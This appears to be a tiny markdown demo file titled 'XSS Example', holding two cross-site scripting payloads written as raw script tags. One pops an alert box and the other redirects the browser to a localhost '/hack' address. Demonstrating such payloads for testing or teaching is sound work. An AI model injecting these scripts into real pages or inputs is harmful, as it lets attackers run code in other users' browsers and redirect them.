 # XSS Example

<script>alert('Hello, World!')</script>
<script>window.location.href="http://localhost:8080/hack"</script>

